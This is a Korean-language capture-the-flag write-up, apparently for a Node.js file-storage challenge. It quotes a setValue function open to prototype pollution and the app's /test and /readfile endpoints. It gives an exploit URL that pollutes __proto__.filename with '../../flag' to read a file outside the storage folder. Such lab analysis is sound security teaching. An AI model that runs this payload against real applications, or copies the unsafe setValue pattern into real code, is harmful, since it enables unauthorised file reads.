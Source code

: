 <h1>1. 웹페이지 접속</h1>

![image](./image/filestorage1.png)

파일이름과 파일내용을 입력할 수 있는 공간과 send 버튼이 있다. 임의의 내용을 입력해서 send 해보면

 

다음과 같이 출력된다.

![image](./image/filestorage2.png)

 

파일 이름으로 abc 를 입력하였는데 파일 이름은 sha256 방식으로 암호화되어 출력된다. 

 

 

<h1>2. 소스코드 분석</h1>
이 웹사이트는 Node.js 로 작성되었으며 파일 이름이 출력되던 mkfile 엔드포인트 이외에도 /readfile, /test 엔드포인트도 존재한다다. 

 

<h2>취약한 소스코드</h2>

```
app.get('/test',function(req,resp){
	let {func,filename,rename}=req.query;
	if(func==null){
		resp.send("this page hasn't been made yet"); 
	}else if(func=='rename'){
		setValue(file,filename,rename)
		resp.send('rename');
	}else if(func=='reset'){
		read={};
		resp.send("file reset");
	}
 
```

/test 에서 사용하는 setValue 함수에서 취약점이 발견되었다.

 

 

<h2>setValue 함수</h2>

```
function setValue(obj, key, value) {
  const keylist = key.split('.'); 
  const e = keylist.shift(); 
  if (keylist.length > 0) {
    if (!isObject(obj[e])) obj[e] = {}; 
    setValue(obj[e], keylist.join('.'), value);
  } else {
    obj[key] = value;
    return obj;
  }
}
```

 

이 함수는 대표적인 프로토타입 오염에 취약한 함수이다.

참고자료 - https://ajy1120.tistory.com/46


 

프로토타입 오염은 Node.js 에서 발생하는 취약점으로 프로토타입 기반 언어인 자바스크립트에서 발생하는 취약점이다.

 

 

<h1>3. 익스플로잇</h1>
<br>
/test의 setValue 함수를 호출하기 위해 다음의 URL 을 파라미터 값으로 전달하였다..

 


/test?func=rename&file=read&filename=__proto__.filename&rename=../../flag
 

그러면 setValue(read, __proto__.filename, ../../flag) 함수가 호출된다. 이 함수가 실행되면 read 객체의 프로토타입

 

의 filename 속성값을 임의의 값으로 지정할 수 있다. 그리고 func=reset 값을 전달하여 read 객체를 다시 초기화하면

 

read 객체의 filename 값이 임의의 값으로 오염되게 된다다.

 

filename 속성값을 오염시킨 이유는 다음의 코드를 이용하기 위해서이다.

```
app.get('/readfile',function(req,resp){ 
	let filename=file[req.query.filename];
	if(filename==null){
		fs.readFile(__dirname+'/storage/'+read['filename'],'UTF-8',function(err,data){
			resp.send(data); // response.send
		})
	}else{
		read[filename]=filename.replaceAll('.',''); 
		fs.readFile(__dirname+'/storage/'+read[filename],'UTF-8',function(err,data){
			if(err==null){
				resp.send(data);
			}else{
				resp.send('file is not existed');
			}
		})
	}

})
```

위의 코드를 보면 filename 변수에 GET 방식으로 받은 값을 저장하고 filename 값이 null 값이면 read 객체의 filename

 

속성값을 그대로 사용하여 파일을 불러오는데, setValue 함수를 실행하여 filename 속성값을 오염시켰기 때문에

 

/readfile 에 접근할 때 아무런 값도 전달하지 않는다면 read['filename'] 값을 그대로 가져오게되어 

 

/storage/../../flag 경로에 접근하여 파일을 불러오게 된다. 


![image](./image/filestorage3_1.png)
